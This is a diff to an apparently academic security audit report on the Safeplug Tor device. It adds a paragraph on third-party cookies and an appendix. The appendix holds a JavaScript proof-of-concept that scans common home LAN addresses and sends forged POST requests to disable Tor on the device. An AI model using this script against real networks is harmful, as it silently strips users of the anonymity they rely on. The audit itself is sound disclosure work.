

Before and after one commit to ae243/safeplug-audit, a LaTeX document (report/report.tex, which reads report/results.tex): part of page 6 of 15 before the commit and two parts of pages 6 and 16 of 16 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
appendix and cookies

```diff
--- a/report/report.tex
+++ b/report/report.tex
@@ -9,6 +9,8 @@
 \usepackage{subcaption}
 %\usepackage[small,compact]{titlesec}
 \usepackage{listings}
+\usepackage{listings}
+\usepackage{color}
 \lstnewenvironment{fileName}{%
 \lstset{%
         basicstyle=\ttfamily,
@@ -41,4 +43,67 @@
 
 \input{bibliography}
 
+\newpage
+\appendix
+\section{\\Javascript for Website Attack} \label{App:AppendixA}
+\definecolor{dkgreen}{rgb}{0,0.6,0}
+\definecolor{gray}{rgb}{0.5,0.5,0.5}
+\definecolor{mauve}{rgb}{0.58,0,0.82}
+
+\lstset{frame=tb,
+  language=Java,
+  aboveskip=3mm,
+  belowskip=3mm,
+  showstringspaces=false,
+  columns=flexible,
+  basicstyle={\small\ttfamily},
+  numbers=none,
+  numberstyle=\tiny\color{gray},
+  keywordstyle=\color{blue},
+  commentstyle=\color{dkgreen},
+  stringstyle=\color{mauve},
+  breaklines=true,
+  breakatwhitespace=true
+  tabsize=3
+}
+
+\begin{lstlisting}
+function go() {
+   var IP_SCANS = 255;
+   var prefixes = new Array("http://192.168.0.", "http://192.168.1.");
+   //var prefix = "http://172.";
+   var prefix = "http://192."
+   var SECOND_START = 168;
+   var SECOND_END = 168;
+   var THIRD_START = 0;
+   var THIRD_END = 1;
+   var mydate = new Date();
+   console.log(mydate.getTime());
+
+   for (var i = SECOND_START; i <= SECOND_END; i++) {
+      for (var j = THIRD_START; j <= THIRD_END; j++) {
+         for (var k = 0; k < IP_SCANS; k++)
+         {
+            var tryip = prefix +  i + "." + j + "." + k;
+            var req = new XMLHttpRequest();
+            req.open("POST", tryip + "/svc/xspctrl/disableTor", true);
+            req.timeout = 1000;
+            //console.log(reqs[i].readyState);
+/*         req.onreadystatechange = function (ip)
+           {
+           return function() { console.log(ip); }
+           } (tryip); */
+            //console.log(reqs[i]);
+            req.send();
+         }
+         // COMMENT THIS OUT BEFORE RUNNING LARGE SCANS!
+         var mydate2 = new Date();
+         console.log(mydate2.getTime() + " " + j);
+      }
+      var mydate = new Date();
+      console.log(mydate.getTime() + " " + i);
+   }
+}
+\end{lstlisting}
+
 \end{document}
--- a/report/results.tex
+++ b/report/results.tex
@@ -118,7 +118,7 @@
 
 This is clearly not the perfect ``anonymity'' that Safeplug promised in their publicity.  Although normal use does follow this model of persisting logins across browser tabs and sessions, a user concerned about anonymity and seeing each session coming up differently (German vs Swedish) might mistakenly believe that they do not have to log out of their social media accounts to preserve their anonymity when accessing other websites.
 
-More interesting and damaging to the user's control over their anonymity would be third-party cookies because the user cannot remove those just by logging out.  It requires a trip to the browser settings to clear cookies (or not have them set in the first place).  We used the FourthParty plugin developed by Jonathan Mayer at Stanford to collect information about cookies and other browsing data during the client's use of the Safeplug \cite{fourthparty}, and future work will include an analysis of this data, particularly looking for third-party cookies.
+More interesting and damaging to the user's control over their anonymity would be third-party cookies because the user cannot remove those just by logging out.  It requires a trip to the browser settings to clear cookies (or not have them set in the first place).  We used the FourthParty plugin developed by Jonathan Mayer at Stanford to collect information about cookies and other browsing data during the client's use of the Safeplug \cite{fourthparty}.  When collecting data on the existence of third-party cookies, we analyzed two separate browsing sessions; they were both new sessions with no cookies.  One of the sessions used the ad-block feature of the Safeplug and the other did not.  After analyzing data from Fourthparty, we found many third-party cookies in both sessions.  These included cookies from: abmr.net, bizographics.com, krxd.net, and bluekai.com among many others.
 
 \subsection{Teardown}
 \label{sec:tear}
```
